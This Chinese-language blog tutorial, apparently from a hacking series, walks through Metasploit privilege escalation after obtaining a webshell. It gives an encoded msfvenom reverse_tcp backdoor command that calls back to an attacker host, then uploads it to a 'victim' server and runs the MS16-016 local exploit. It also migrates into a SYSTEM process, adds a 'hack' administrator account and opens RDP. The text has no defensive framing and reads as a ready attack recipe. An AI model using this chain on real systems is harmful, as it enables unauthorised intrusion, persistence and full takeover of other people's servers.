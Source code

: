 ```yaml
---
layout: post
category: binghe-code-hack
title: MSF提权
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: MSF提权
lock: need
---
```


# MSF提权

在WEB渗透中当我们拿到webshell了，我们可以试试用MSF(metasploit)来进行提权，在MSF里meterpreter很强大的！

我们先用msfvenom生成一个EXE的木马后门。

```bash
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b '\x00' LHOST=192.168.1.7 LPORT=4444 -f exe > abc.exe
```

![img](https://img-blog.csdnimg.cn/20190106221604920.jpg)

然后在到MSF根据刚才配置的木马后门进行监听...

然后在把木马上传到服务器（受害者）的机器里，必须上传到可读可写的目录下

![img](https://img-blog.csdnimg.cn/20190106221651573.jpg)

比如这里我吧abc.exe上传到了C:\users\leak\desktop\目录下，

abc.exe就是我刚才生成的后门。

![img](https://img-blog.csdnimg.cn/20190106221723788.jpg)

然后在执行我们的后门，可以看见MSF弹回了一个session 1(会话连接)。

说明我们后门程序成功执行起来了，当然你也可以在webshell执行的，

但必须的有一点执行的权限

![img](https://img-blog.csdnimg.cn/2019010622180692.jpg)

getuid //可以看见我们的权限很低的，一般都是user权限的，

但也遇到过某些服务器执行后就直接是system最高权限。像这种我们就直接加用户啦。

这里我们是user权限，我们要把它提升到system权限。Windows最高权限

![img](https://img-blog.csdnimg.cn/20190106221851139.jpg)

接着我们输入命令

background   //把你当前的metasploit shell转为后台执行。

search ms16  // 搜索关键字相关的漏洞

.....然后我选择了MS16-016这个漏洞在进行提权

use exploit/windows/local/ms16_016_webdav //  选择漏洞

![img](https://img-blog.csdnimg.cn/20190106221937551.jpg)

show options  //查看漏洞里边要设置的参数

可以看见只有一个SESSION参数要设置 

![img](https://img-blog.csdnimg.cn/20190106222107730.jpg)

set  SESSION 1 // 设置会刚才我们后门连接的ID号 1

exploit //执行提权...

可以看见成功的吧漏洞利用到了PID为692的进程中...

虽然提权成功了 但你getuid下还是看见的是user权限

![img](https://img-blog.csdnimg.cn/2019010622214883.jpg)

ps一下查看进程

根据刚才的提示找到PID 692的进程

可以看见确实是system权限

![img](https://img-blog.csdnimg.cn/20190106222225510.jpg)

所以我们还要用到migrate 命令 //迁移到一个指定的进程ID。

migrate 692  //

在getuid下可以看见为system权限啦

提权成功了

![img](https://img-blog.csdnimg.cn/20190106222259401.jpg)

既然有了system权限 那我们在添加账号hack

添加为管理员组

![img](https://img-blog.csdnimg.cn/20190106222350540.jpg)

用Nmap扫下并没有开启远程登陆3389

![img](https://img-blog.csdnimg.cn/20190106222445235.jpg)

run getgui -e  //开启目标主机3389  貌似这条MSF命令只对2003的系统有效 执行几次都没成功 

所以就用cmd命令开了3389端口

![img](https://img-blog.csdnimg.cn/20190106222845638.jpg)

提权成功，登录服务器。。。

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)